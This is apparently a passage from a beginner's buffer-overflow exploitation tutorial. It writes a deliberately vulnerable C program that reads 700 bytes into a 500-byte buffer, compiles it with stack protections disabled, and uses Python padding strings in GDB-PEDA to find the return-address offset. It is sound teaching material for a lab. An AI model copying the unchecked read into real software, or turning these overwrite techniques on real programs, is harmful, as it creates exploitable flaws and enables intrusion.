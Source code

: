 ```
pattern_offset <@finded>
```
should be found at <@offset> </br>
In  the terminal 2
```
python3 -c 'print("A"*516+ "B"*4 + "C"*(700-516-4))' > input.txt
```
```
cat input.txt
```
In first terminal : GDB-PEDA
```
run < input.txt
```
```
quit
```

```
cd ..
```

## Chapter 2

```
mkdir chapter2
```
```
cd chapter2
```
```
nano vuln.c
```
```
#include <stdio.h>
#include <unistd.h>

int help() {
    system("touch pwned.txt");
}

int overflow() {
    char buffer[500];
    int userinput;
    userinput = read(0, buffer, 700);
    printf("User provided %d bytes. Buffer content is: %s\n", userinput, buffer);
    return 0;
}

int main(int argc, char * argv[]) {
    overflow();
    return 0;
}
```
```
gcc -g -fno-stack-protector -z execstack -no-pie -m32 -o vuln vuln.c
```
In another terminal : 
```
python3 -c 'print("A"*516+ "B"*4 + "C"*(180))' > input.txt
```
In first terminal 
```
gdb-peda -q ./vuln
```
```
run < input.txt
```
```
```